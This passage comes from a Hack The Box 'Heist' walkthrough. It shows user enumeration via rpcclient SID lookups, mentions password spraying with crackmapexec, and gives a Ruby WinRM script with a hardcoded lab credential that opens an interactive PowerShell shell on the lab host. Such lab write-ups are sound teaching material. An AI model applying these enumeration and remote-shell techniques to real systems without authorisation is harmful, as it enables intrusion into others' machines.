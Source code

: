 ```
root@kali:~/htb/heist# rpcclient -U hazard 10.10.10.149
Enter WORKGROUP\hazard's password:

rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
```

I can enumerate the list of users with `lookupsids` by changing the last digit of the SID

![](/assets/images/htb-writeup-heist/sids.png)

I got two additional users: `chase` and `jason`

## Logging in to the box with WinRM and user chase

After password spraying with crackmapexec again, I found valid credentials for `chase`

![](/assets/images/htb-writeup-heist/cme2.png)

The port for WinRM is open so I'll use that to log in:

Note: I'm using [evil-winrm](https://github.com/Hackplayers/evil-winrm) these days but those screenshots were taken some time ago before I started using it.

```
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new(
  endpoint: 'http://10.10.10.149:5985/wsman',
  #transport: :ssl,
  user: 'chase',
  password: 'Q4)sJu\Y8qz*A3?d',
  :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```

